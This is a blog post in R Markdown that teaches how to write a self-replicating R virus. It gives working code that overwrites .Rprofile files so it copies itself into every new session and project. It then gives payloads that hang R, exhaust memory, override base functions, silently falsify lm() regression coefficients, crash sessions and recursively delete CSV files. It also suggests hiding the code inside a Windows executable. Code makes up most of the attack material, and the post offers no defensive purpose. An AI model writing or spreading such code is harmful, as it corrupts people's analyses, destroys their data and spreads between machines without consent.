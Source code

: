```yaml
---
title: 'Write an R Virus '
author: Siqi Zhang
date: '2018-09-27'
slug: how-to-write-an-r-virus
categories:
  - R
tags:
  - Programming
---
```


A [computer virus](https://en.wikipedia.org/wiki/Computer_virus) is a piece of program that can:

 - copy itself
 - do bad things     

This is not very hard to accomplish with R, as I will demonstrate in this article.  

  
## Replicate ##
    
The [_virus_](https://gist.github.com/iqis/e4030f6af45d0d3ebae21f2816c1fc58) exploits R's initilization script, `.Rprofile`. When R starts up, it is going to look for this file in the current working directory and the user's home directory, then runs everything in it:
```r
{
    function() {
        rp_paths <- c("~/.Rprofile", paste0(getwd(), "/.Rprofile"))
        inject <- function(rp, code) {
            write(code, file = rp, append = FALSE)
        }
        lapply(rp_paths, inject, code = deparse(match.call()))

        cat("Wow, your R is Rancid!!!\n")
    }
}()

```

When the above script is run, it will make a copy of itself through `deparse(match.call())`, and overwrite the `.Rprofile` files. The next time you open a new R session, everything you see in the above will be run again. Right now, our virus does nothing but printing something at the end of your start up message.

```
...

Type 'demo()' for some demos, 'help()' for on-line help, or
'help.start()' for an HTML browser interface to help.
Type 'q()' to quit R.

Wow, your R is Rancid!!!
```
Any project that started by the user is going to have its project folder infected. Likewise, if someone copy-and-pasted the R project folder to another computer, and start R from there, his home folder is going to be infected.

As R is an interpreted language, this seems to be the only way to infection. To conceal our malicous code, there is a way of packing a Shiny app into a Windows executable through using a tool called [RInno](https://ficonsulting.github.io/RInno/), which has [Electron](https://electronjs.org/) behind itself.
  
## Damage ##
    
It looks like that the replication part of the virus is taken care of. What, then, are some malicious scripts that we can have fun with? 

There could be countless ways.

One of the easiest thing to do is to hang the user's R session. It could be done as simply as putting it to _sleep_ for a really long time:
```r
Sys.sleep(1e9)
```
... like 30 years, give or take.

Or, let R come up with a really large number; this is also going take up available memory to the user.
```r
rnorm(1e9)
```
For me, 1e9 is quite enough. But scientific notaion is your friend. Go big.

However, if R is rendered completely unusable, the virus isn't going to travel very far. That's not what we want. It is also a great idea to replace some good functions with naughty ones. Symbol bindings are locked in attached namespaces, but it is easy to undo that:
```r
reassign <- function(sym, value, envir) {
        envir <- as.environment(envir)
        unlockBinding(sym, envir)
        assign(sym, value, envir = envir)
}
```

We can do the user a service by forbidding the `library()` function, and prompt a better option.
```r
reassign("library", 
         function(...) warning("No man, seriously. Use require()"),
         "package:base"
)
```

The effect would be:
```r
library(purrr)
```

Now let's try something more subtle and more bad(_badder_?). We first extend the `reassign()` function a little bit...
```r
tamper <- function(sym, value, envir){
        assign(paste0(".",sym), 
               get(sym, envir = as.environment(envir)), 
               envir = as.environment("package:base")
               )
        reassign(sym, value, envir)
}
```

... and use it to slip in some bad code.
```r
tamper("lm",
       function(...){
               model <- .lm(...)
               model$coefficients <- 
                       model$coefficients * (1 + rnorm(1))
               model
               },
       "package:stats")
```

Now when we build a model; the coefficients looks normal, but are completely off. You can compare the this with the result on your own computer.
```r
lm(mpg ~ ., data = mtcars)$coefficients
```

In the above, we saved a copy of the original function in the base package, concealing it with prepending the name wit a `.`. If we didn't do that, we would have create an infinite recursion through self-refernce, such as:
```r
reassign("paste",
         function(...) paste(...),
         "package:base")

```

```r
paste("foo", "bar")
```
Running this will have an effect of crashing the R session. If the user didn't save documents before setting off this bomb,it's obviously too bad. Another way to create trouble.

## Further Damage ##
    
There are yet more ways to our streak of mischief. For starters, how about deleting every `csv` file the user has in the working directory? 
```r
file.remove(list.files(getwd(), 
                       ".csv",
                       recursive = TRUE)
```
    
Doing something on the file system is a big step foward form just messing with their R session.

From annoying to destructive, the level of naughtiness only limited by on your imagination. With some deliberation, you can ruin someone's life in a very meaningful way. 

Here are some futher ideas:

  -  Bloat the user's disk space with meaningless data
  -  Give wrong results only _sometimes_ when a function is called
  -  Use [Rstudio API](https://rstudio.github.io/rstudio-extensions/pkgdown/rstudioapi/index.html) to mess with the user's scripts in the editor, or some other wild sh*t.

    
    
**Note**  
You also have the choice of putting any of the malicious programs in `.First()` and `.Last()` functions, which will run at the beginning and the end of a session. See the [R Manual](https://stat.ethz.ch/R-manual/R-devel/library/base/html/Startup.html) for details. 

More on `.Rprofile`: [Fun with .Rprofile and customizing R startup](http://www.onthelambda.com/2014/09/17/fun-with-rprofile-and-customizing-r-startup/)

